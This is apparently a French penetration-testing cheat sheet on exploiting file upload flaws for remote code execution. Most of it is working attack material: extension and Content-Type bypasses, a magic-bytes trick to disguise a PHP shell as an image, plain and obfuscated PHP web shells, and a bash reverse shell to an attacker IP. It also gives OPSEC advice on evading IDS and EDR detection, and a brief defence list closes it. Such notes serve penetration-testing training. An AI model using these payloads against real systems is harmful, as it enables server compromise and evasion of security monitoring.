

## Contexte et Théorie

L'exploitation de téléchargement de fichiers (**File Upload Vulnerabilities**) survient lorsqu'une application permet le transfert de fichiers vers son système de fichiers sans validation adéquate du type, de la taille ou du contenu. L'objectif est d'exécuter du code arbitraire sur le serveur (RCE) en téléversant un script malveillant (Web Shell).

> [!info]
> Le succès de l'exploitation dépend de la capacité du serveur à interpréter le langage du fichier téléversé (ex: PHP, ASPX, JSP) et de la configuration du serveur web (Apache, Nginx, IIS).

## Flux d'attaque



## Méthodologie d'exploitation

### Analyse des restrictions
Avant toute tentative, identifier les mécanismes de défense :
- **Extension blacklist/whitelist** : Vérifier les extensions autorisées.
- **Content-Type validation** : Vérifier si le serveur se fie à l'en-tête `Content-Type`.
- **Magic Bytes (MIME sniffing)** : Vérifier si le serveur analyse les premiers octets du fichier.
- **Nom de fichier** : Vérifier si le nom est renommé ou s'il y a des vulnérabilités de type Path Traversal.

### Bypass des extensions
Si une liste noire est utilisée, tester des extensions alternatives :
- PHP : `.php5`, `.phtml`, `.php7`, `.phps`
- ASPX : `.aspx`, `.config`, `.ashx`

### Bypass via Magic Bytes
Si le serveur vérifie le contenu, injecter les octets magiques au début du fichier :
```bash
# Exemple pour un fichier PHP déguisé en image JPEG
echo -ne '\xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46' > shell.php
cat shell.php.backdoor >> shell.php
```

### Bypass via Content-Type
Modifier l'en-tête dans Burp Suite lors de la requête POST :
```http
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg
```

## Techniques de Web Shell

### PHP Simple
```php
<?php system($_GET['cmd']); ?>
```

### PHP Avancé (Obfusqué)
```php
<?php
$a = 'sys'.'tem';
$a($_REQUEST['cmd']);
?>
```

> [!tip]
> Toujours tester avec un simple `<?php echo "test"; ?>` avant d'injecter un reverse shell complet pour confirmer l'exécution.

## Commandes et Outils

### Fuzzing d'extensions avec ffuf
```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/web-extensions.txt:EXT -u http://target.com/upload.php -X POST -F "file=@test.EXT" -F "submit=upload" -mr "uploaded successfully"
```

### Reverse Shell via Netcat
Une fois le shell exécuté :
```bash
# Sur la machine attaquante
nc -lvnp 4444

# Via le Web Shell (URL encoded)
http://target.com/uploads/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
```

> [!danger]
> L'exécution de reverse shells peut déclencher des solutions EDR ou des logs de sécurité (SIEM). Privilégier des méthodes d'exécution en mémoire ou des shells encodés.

## Contre-mesures et OPSEC

### Défense
- **Validation stricte** : Utiliser une liste blanche d'extensions et de types MIME.
- **Renommage aléatoire** : Stocker les fichiers avec des noms générés aléatoirement (UUID) et sans extension originale.
- **Stockage hors racine web** : Placer les fichiers téléversés dans un répertoire sans droits d'exécution (ex: `noexec` sur la partition).
- **Analyse antivirus** : Scanner les fichiers téléversés avec une solution type ClamAV.

### OPSEC
- **Nettoyage** : Supprimer systématiquement les web shells après usage.
- **Trafic** : Utiliser des méthodes d'obfuscation pour éviter les signatures IDS basées sur les chaînes `system()`, `exec()`, ou `passthru()`.
- **Logs** : Garder à l'esprit que les requêtes POST vers `/upload` sont hautement surveillées.

> [!warning]
> Le téléversement de fichiers volumineux peut causer un déni de service (DoS) sur le serveur de stockage. Toujours limiter la taille maximale des fichiers.